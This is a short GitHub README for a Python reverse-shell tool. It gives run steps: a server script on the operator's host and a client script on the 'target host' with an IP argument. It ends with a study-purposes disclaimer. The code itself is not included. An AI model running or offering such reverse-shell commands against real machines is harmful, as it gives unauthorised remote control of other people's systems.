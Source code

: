 # Python Reverse Shell

Simple python script which creates a reverse shell connection between client and server.

## 🚀 Run

 1. Run ReverseShell-server.py in the server host.
 ```
python ReverseShell-server.py
 ```
 2. Run ReverseShell-client.py in target host.
 ```
python ReverseShell-client.py targetIP
 ```
 Example
 ```
python ReverseShell-client.py 127.0.0.1
 ```
### 📋 Prerequisites

-> Python 3


### 🔧 Installation

Does not require installation



## 🛠️ Made with

-> Python 3.9.2


## 📌 r_shell version

-> 1.0


## 📄 Terms

I,the developer, do not take any responsibility charges for bad usage
of this software.

This tool was created for study purposes.

Respect other people's privacy.


---

⌨️ Made with ❤️ by [BraiNiac](https://github.com/babyboydaprince) 👽

